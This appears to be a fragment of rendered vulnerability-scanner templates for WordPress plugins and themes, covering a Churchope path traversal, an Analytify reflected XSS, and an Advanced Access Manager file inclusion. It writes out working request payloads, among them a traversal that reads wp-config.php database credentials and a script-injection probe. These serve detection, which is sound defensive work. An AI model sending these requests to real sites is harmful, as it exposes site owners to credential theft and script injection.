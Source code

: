 ### URL
- {{BaseURL}}/wp-content/themes/churchope/lib/downloadlink.php?file=../../../../wp-config.php
### Matchers

**Type - word**
- part - body
- words
    1. DB_NAME
    2. DB_PASSWORD
- condition - and

**Type - status**
- status
    1. 200

---
# Analytify \<4.2.1 - Cross-Site Scripting
## Description
- WordPress Analytify 4.2.1 does not escape the current URL before outputting it back in a 404 page when the 404 tracking feature is enabled, leading to reflected cross-site scripting.

- severity - medium
- tags - wp,wordpress,analytify,wpscan,wp-plugin,xss
## Requests
- Method - GET
### URL
- {{BaseURL}}/aa404bb?a\</script>\<script>alert(/XSS/)\</script>
### Matchers

**Type - word**
- part - body
- words
    1. text/javascript">alert(/XSS/)\</script>
    2. wp-analytify
- condition - and

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 404

---
# WordPress Advanced Access Manager \< 5.9.9 - Local File Inclusion
## Description
- WordPress Advanced Access Manager versions before 5.9.9 are vulnerable to local file inclusion and allows attackers to download the wp-config.php file and get access to the database, which is publicly reachable on many servers.
